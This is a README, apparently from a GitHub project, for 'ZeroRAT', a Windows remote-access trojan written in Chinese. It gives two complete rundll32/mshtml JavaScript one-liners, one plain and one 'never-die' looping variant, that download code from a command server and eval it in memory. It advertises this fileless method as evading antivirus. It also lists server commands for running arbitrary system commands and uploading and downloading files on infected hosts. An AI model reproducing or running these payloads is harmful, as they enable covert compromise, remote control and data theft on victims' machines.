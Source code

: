 #ZeroRAT
##简介
适用于windows的远控，客户端只需要执行一条指令，利用windows原生的程序执行，不在磁盘写文件，具有天然免杀的特性。重启失效。

程序里的download和upload都是以客户端的视角。客户端从服务端下载文件叫做download，客户端上传文件到服务端叫做upload。

##配置
在config.py中修改客户端上线的地址和后台的管理密码，记得要检查下把debug关掉。

程序依赖flask和sqlite3，自行pip安装

##客户端
把<server>:<ip>替换成实际上线的地址

正常版

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://<server>:<ip>/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

不死版

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://<server>:<ip>/connect",false);while(1){try{h.Send();B=h.ResponseText;eval(B);}catch(e){}}
```

##服务端
后台： http://<server>:<ip>/server/

服务端支持的命令有

* sessions  列出活动的客户端
* use <id>  根据id选择客户端
* show globals/downloads/uploads  查看全局变量、客户端能下载的文件、客户端上传的文件
* delete session  删除当前客户端
* delete download/upload <id> 按照id删除文件
* upfile  上传文件到服务器，并添加到downloads列表
* download  设置好download_file和download_save_path两个变量即可让客户端下载文件并保存到download_save_path
* upload  设置upload_file变量，即可让客户端把upload_file的文件上传到服务器

除了上述的命令，其他均会被当做windows的系统命令来执行

命令详情请见/static/js/xkcd_cli.js

##开发
后台命令维护客户端 /static/js/xkcd_cli.js

后台命令维护服务端 /controllers/server.py

客户端维护 /controllers/client.py

客户端payload生成 payload.py

数据库操作相关 /models/

##联系方式
http://5alt.me

md5_salt [AT] qq.com

##参考资料
https://gist.github.com/subTee/f1603fa5c15d5f8825c0

http://drops.wooyun.org/tips/11764

https://github.com/chromakode/xkcdfools

http://www.kammerl.de/ascii/AsciiSignature.php

##TODO
* 完善命令
* heartbeat随任务量来决定sleep时间


